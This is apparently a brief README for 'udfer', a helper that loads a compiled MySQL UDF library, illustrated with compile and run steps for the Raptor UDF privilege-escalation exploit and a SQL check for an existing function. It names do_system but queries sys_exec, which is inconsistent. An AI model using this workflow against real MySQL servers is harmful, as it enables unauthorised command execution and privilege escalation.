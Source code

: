 # udfer

./udfer /path/to/your/mysql/udf.so

My use case was the old Raptor UDF exploit, so:

~~~
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
./udfer /path/to/raptor_udf2.so
~~~

Before running the code this produces, ensure that the do_system UDF does not exist!

~~~
select * from mysql.func where name = 'sys_exec'
~~~

If it does exist and you run the command provided, you will clobber an existing function.

